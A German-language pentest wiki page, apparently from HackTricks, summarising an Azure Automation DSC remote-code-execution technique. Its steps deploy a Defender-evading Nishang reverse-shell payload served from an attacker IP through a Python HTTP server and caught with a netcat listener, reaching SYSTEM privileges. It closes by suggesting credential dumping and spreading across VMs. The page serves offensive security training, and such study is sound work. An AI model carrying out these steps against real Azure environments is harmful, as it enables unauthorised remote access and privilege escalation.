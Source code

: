 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Überprüfen Sie den vollständigen Beitrag unter:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Zusammenfassung der Vorbereitung und Schritte zur Remote-Server (C2) Infrastruktur

#### Übersicht

Der Prozess umfasst die Einrichtung einer Remote-Server-Infrastruktur, um ein modifiziertes Nishang `Invoke-PowerShellTcp.ps1` Payload, genannt `RevPS.ps1`, zu hosten, das entwickelt wurde, um Windows Defender zu umgehen. Das Payload wird von einer Kali Linux-Maschine mit der IP `40.84.7.74` über einen einfachen Python HTTP-Server bereitgestellt. Der Vorgang wird durch mehrere Schritte ausgeführt:

#### Schritt 1 — Dateien erstellen

- **Benötigte Dateien:** Zwei PowerShell-Skripte sind erforderlich:
1. `reverse_shell_config.ps1`: Eine Desired State Configuration (DSC) Datei, die das Payload abruft und ausführt. Sie ist von [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) erhältlich.
2. `push_reverse_shell_config.ps1`: Ein Skript, um die Konfiguration an die VM zu veröffentlichen, verfügbar unter [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Anpassung:** Variablen und Parameter in diesen Dateien müssen an die spezifische Umgebung des Benutzers angepasst werden, einschließlich Ressourcennamen, Dateipfade und Server-/Payload-Identifikatoren.

#### Schritt 2 — Konfigurationsdatei zippen

- Die `reverse_shell_config.ps1` wird in eine `.zip`-Datei komprimiert, um sie für die Übertragung zum Azure Storage Account vorzubereiten.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Schritt 3 — Speicher-Kontext festlegen & hochladen

- Die gezippte Konfigurationsdatei wird in einen vordefinierten Azure Storage-Container, azure-pentest, mit dem Azure-Befehl Set-AzStorageBlobContent hochgeladen.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Schritt 4 — Kali-Box vorbereiten

- Der Kali-Server lädt die RevPS.ps1 Payload aus einem GitHub-Repository herunter.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Das Skript wird bearbeitet, um die Ziel-Windows-VM und den Port für die Reverse-Shell anzugeben.

#### Schritt 5 — Konfigurationsdatei veröffentlichen

- Die Konfigurationsdatei wird ausgeführt, was dazu führt, dass das Reverse-Shell-Skript an dem angegebenen Ort auf der Windows-VM bereitgestellt wird.

#### Schritt 6 — Payload hosten und Listener einrichten

- Ein Python SimpleHTTPServer wird gestartet, um die Payload zu hosten, zusammen mit einem Netcat-Listener, um eingehende Verbindungen zu erfassen.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Der geplante Task führt das Payload aus und erreicht SYSTEM-Ebene Privilegien.

#### Fazit

Die erfolgreiche Ausführung dieses Prozesses eröffnet zahlreiche Möglichkeiten für weitere Aktionen, wie z.B. Credential Dumping oder die Ausweitung des Angriffs auf mehrere VMs. Der Leitfaden ermutigt zu weiterem Lernen und Kreativität im Bereich Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}
